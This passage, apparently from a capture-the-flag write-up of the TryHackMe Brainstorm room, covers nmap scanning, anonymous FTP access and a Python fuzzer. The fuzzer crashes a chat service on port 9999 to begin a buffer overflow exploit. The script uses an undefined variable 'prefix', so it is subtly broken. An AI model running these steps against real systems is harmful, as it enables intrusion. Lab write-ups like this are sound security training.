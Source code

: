 Nothing.

Nmap results show:

```bash
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                Microsoft ftpd
3389/tcp open  ssl/ms-wbt-server?
9999/tcp open  abyss?
```

I check to see what is on port `9999` with `nc $TARGET_IP 9999`.

I see it's some kind of chat service.

I find an anonymous FTP access, I login browse around and find `chatserver.exe` and `essfunc.ddl` files.

## Buffer Overflow: Local Dev

I now have a copy of this "chat service" that I assume is the same one on the target machine, so I need to setup a local buffer overflow developing "lab".

I setup a Win7 VM to run the `chatserver.exe` program on.

I installed immunity debugger on the Win7 VM to develop my local buffer overflow exploit, which I will use on the THM box once complete.

### Fuzzing

Start up immunity debugger (ImmD) on the Win7 VM, run the `chatserver.exe` from ImmD.

I borrowed the BufferOverflowPrep rooms python scripts to use on the BRAINSTORM room starting with the fuzzer on port 9999

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.28.156"

port = 9999
timeout = 5

string = "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
